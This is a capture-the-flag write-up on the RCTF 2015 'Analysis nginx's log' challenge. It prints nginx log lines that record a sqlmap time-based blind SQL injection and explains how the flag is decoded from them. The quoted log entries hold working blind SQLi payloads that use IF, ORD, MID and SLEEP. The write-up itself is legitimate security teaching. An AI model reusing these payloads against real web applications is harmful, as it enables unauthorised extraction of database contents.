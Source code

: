 Title: CTF writeup - RCTF 2015 Quals: Analysis nginx's log
Category: Infosec
Tags: ctf,sqli
Modified: 2015-11-29
Summary: Analysis of a blind SQL Injection in logs


## Challenge
> Analysis nginx's log (this flag is like ROIS{xxx}).

The log file can be found [here](https://github.com/ctfs/write-ups-2015/blob/master/rctf-quals-2015/misc/analysis-nginxs-log/log_d30afe96202aafae7c0a1ecc123c0584).

## Writeup
The first thing I did is to search for the string `flag`, which found a [blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection) performed by [sqlmap](http://sqlmap.org/).
I extracted those URL-encoded entries then converted them to readable text using [asciitohex](http://www.asciitohex.com), which gave lines like these:

```text hl_lines="8 16 24 32"

192.168.52.1 - - [06/Nov/2015:19:33:07 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),1,1))>64),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:07 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),1,1))>96),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:08 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),1,1))>80),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:08 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),1,1))>88),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:08 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),1,1))>84),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:08 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),1,1))>82),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:09 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),1,1))>81),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:09 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),1,1))!=82),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:10 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),2,1))>64),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:10 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),2,1))>96),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:10 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),2,1))>80),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:11 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),2,1))>72),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:12 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),2,1))>76),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:13 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),2,1))>78),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:13 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),2,1))>79),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:13 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),2,1))!=79),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:14 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),3,1))>64),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:14 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),3,1))>96),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:14 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),3,1))>80),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:15 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),3,1))>72),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:15 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),3,1))>76),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:15 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),3,1))>74),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:15 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),3,1))>73),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:15 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),3,1))!=73),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:16 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),4,1))>64),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:16 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),4,1))>96),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:17 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),4,1))>80),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:17 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),4,1))>88),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:17 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),4,1))>84),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:18 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),4,1))>82),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:18 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),4,1))>83),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
192.168.52.1 - - [06/Nov/2015:19:33:18 -0800] "GET /phpcode/rctf/misc/index.php?id=1 AND 7500=IF((ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM misc.flag ORDER BY flag LIMIT 0,1),4,1))!=83),SLEEP(1),7500) HTTP/1.1" 200 5 "-" "sqlmap/1.0-dev (http://sqlmap.org)" "-"
```

For each character of the flag, there is a bunch of entries that basically does this:
```pseudocode
if flag[0].char_code > 64:
    sleep(1)
```

Then, after multiple guesses, sqlmap confirms the exact character code:
```pseudocode
if flag[0].char_code != 82:
    sleep(1)
```

Then it goes to the next character: `LIMIT 0,1),1,1` becomes `LIMIT 0,1),2,1`.

So the most interesting entries contains a `!=`, like this: `...LIMIT 0,1),1,1))!=82),SLEEP(1)...` (highlighted in the snippet).
We can find the flag value by extracting every character code after a `!=`. I used Sublime Text's search + multi-select for this, but you can do some vim or regex magic too.
Pasting these characters in [asciitohex](http://www.asciitohex.com) revealed the flag.
In the snippet above, you can find the first 4 characters.

Flag: `ROIS{miSc_An@lySis_nG1nx_L0g}`.
